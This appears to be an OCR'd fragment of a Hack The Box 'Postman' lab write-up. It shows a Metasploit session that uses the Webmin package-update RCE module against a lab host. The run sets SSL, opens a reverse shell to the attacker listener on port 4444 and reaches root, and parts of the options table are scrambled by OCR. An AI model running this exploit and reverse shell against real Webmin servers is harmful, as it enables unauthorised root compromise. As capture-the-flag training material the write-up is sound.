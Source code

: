 ![](Maszyny/Linux/Postman/Pasted%20image%2020210829030631.png)

Matt
USERNAME
VHOST
yes
no
Webmin Username
HTTP server virtual host
Payload options (cmd/unix/reverse):
Name
Current Setting Required Description
10.10.14.23
The listen address (an interface may be specified)
4444
yes
The listen port
LHOST
LPORT
yes
Exploit target:
Id
Name
0
Webmin < 1.910
msf6 exploit(linux/http/webmin_packageup_rce) > run
[*] Started reverse TCP double handler on 10.10.14.23:4444
[-] Exploit aborted due to failure: unknown: Failed to retrieve session cookie
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/webmin_packageup_rce) >
msf6 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
msf6 exploit(linux/http/webmin_packageup_rce) > run
SSL => true
[*] Started reverse TCP double handler on 10.10.14.23:4444
[+] Session cookie: a60616d1806aac346082d4e5071a1fa7
[*] Attempting to execute the payload ...
[*] Accepted the first client connection ...
Accepted the second client connection ...
Command: echo QKzp8 JuAZRp4uSbn;
Writing to socket A
Writing to socket B
Reading from sockets ...
Reading from socket A
[*] A: "QKzp8JuAZRp4uSbn\r\n"
[*] Matching..
[*] B is input ..
[*] Command shell session 1 opened (10.10.14.23:4444 → 10.10.10.160:37826) at 2021-08-29 03:05:12 +0200
...
getuid
sh: 7: getuid: not found
id
uid=0(root) gid=0(root) groups=0(root)
